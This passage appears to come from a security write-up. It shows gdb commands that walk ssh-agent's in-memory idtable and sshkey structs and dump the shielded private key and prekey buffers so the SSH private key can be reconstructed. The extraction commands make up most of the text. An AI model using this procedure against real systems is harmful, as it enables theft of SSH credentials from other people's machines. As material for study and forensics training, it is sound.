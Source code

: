 The `0x55e9d0c5fb90` is the pointer to the `identity` struct judging from the `idtable` struct we saw from source code. Lets check it:

```
(gdb) x/4xg 0x55e9d0c5fb90
0x55e9d0c5fb90: 0x0000000000000000      0x000055e9d0c5a3c8
0x55e9d0c5fba0: 0x000055e9d0c5dee0      0x000055e9d0c5bc00
```

If this is the `identity` struct, then the 4th pointer should be `*comment`, which is a string, lets check:

```
(gdb) x/s 0x55e9d0c5bc00
0x55e9d0c5bc00: "rUbKfy1noZp6wgMUneTrg"
```

Looks good, which means the 3rd pointer should be `*key`, making `*key` pointing to `0x55e9d0c5dee0`. Lets check it:

```
(gdb) x/22xg 0x55e9d0c5dee0
0x55e9d0c5dee0: 0x0000000000000000      0x000055e9d0c610e0
0x55e9d0c5def0: 0x0000000000000000      0x00000000ffffffff
0x55e9d0c5df00: 0x0000000000000000      0x0000000000000000
0x55e9d0c5df10: 0x0000000000000000      0x0000000000000000
0x55e9d0c5df20: 0x0000000000000000      0x0000000000000000
0x55e9d0c5df30: 0x0000000000000000      0x0000000000000000
0x55e9d0c5df40: 0x0000000000000000      0x0000000000000000
0x55e9d0c5df50: 0x0000000000000000      0x0000000000000000
0x55e9d0c5df60: 0x0000000000000000      0x000055e9d0c60ab0
0x55e9d0c5df70: 0x0000000000000570      0x000055e9d0c61c00
0x55e9d0c5df80: 0x0000000000004000      0x0000000000000031
```

So comparing to the `key` struct, the we know the `shield_prekey_len` is 0x4000, so from that use intuition to fill in (from [sshkey.h](https://github.com/openssh/openssh-portable/blob/master/sshkey.h)):

```c
struct sshkey {
	//... (snipped)
	/* Private key shielding */
	u_char	*shielded_private;	// 0x000055e9d0c60ab0
	size_t	shielded_len;		// 0x0000000000000570
	u_char	*shield_prekey;		// 0x000055e9d0c61c00
	size_t	shield_prekey_len;	// 0x0000000000004000
};
```

Because one of SSH's security features is that the private key is never stored in plaintext, to avoid just this type of attack, where someone core dumps and gets the private key, we will need to recompile ssh-keygen and feed those shielded keys into it so we can get a nice private key we can use.
Lets dump the `shielded_private` and `shield_prekey`:

```
(gdb) dump binary memory shielded_private 0x000055e9d0c60ab0 0x000055e9d0c60ab0 + 0x570
(gdb) dump binary memory shield_prekey 0x000055e9d0c61c00 0x000055e9d0c61c00 + 0x4000
```
